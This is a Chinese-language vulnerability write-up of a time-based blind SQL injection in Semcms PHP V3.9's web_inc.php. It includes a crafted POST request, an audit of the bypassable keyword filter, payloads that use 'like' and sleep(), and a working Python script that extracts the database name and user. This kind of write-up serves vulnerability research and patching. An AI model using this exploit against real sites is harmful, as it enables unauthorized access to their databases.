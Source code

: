 Semcms PHP(多语)版 V3.9 sql注入漏洞
===================================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms PHP(多语)版 V3.9

三、复现过程
------------

### 漏洞详情

漏洞文件为Include下的web\_inc.php文件

包

    POST /Include/web_inc.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Upgrade-Insecure-Requests: 1
    Content-Length: 64
    Content-Type: application/x-www-form-urlencoded

    languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);

基于时间的注入

### 代码审计

查看web\_inc.php的关键代码

    if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

    if(!empty($Language)){

          //网站SEO设定

          $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
          $row=mysqli_fetch_array($query);
          $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
          $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
          $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

    ......

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

    function test_input($data) { 
          $data = str_replace("%", "percent", $data);
          $data = trim($data);
          $data = stripslashes($data);
          $data = htmlspecialchars($data,ENT_QUOTES);
          return $data;

       }
    function inject_check_sql($sql_str) {

         return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
    } 

    function verify_str($str) { 

       if(inject_check_sql($str)) {

           exit('Sorry,You do this is wrong! (.-.)');
        } 

        return $str; 
    }

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

    languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);

附上脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory

    import requests

    def getDatabase(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,9):
            for j in range(97,122):
                data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j)
                    print(s)
                    break
        print('database=' + s)


    def getUser(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,21):
            for j in range(64,90):
                data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j).lower()
                    print(s)
                    break
        print('user=' + s)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/Include/web_inc.php'

        s = getDatabase(url)
        u = getUser(url)

运行截图

![](./.resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId26.png)

![](./.resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId27.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接
--------

> <https://xz.aliyun.com/t/7122>
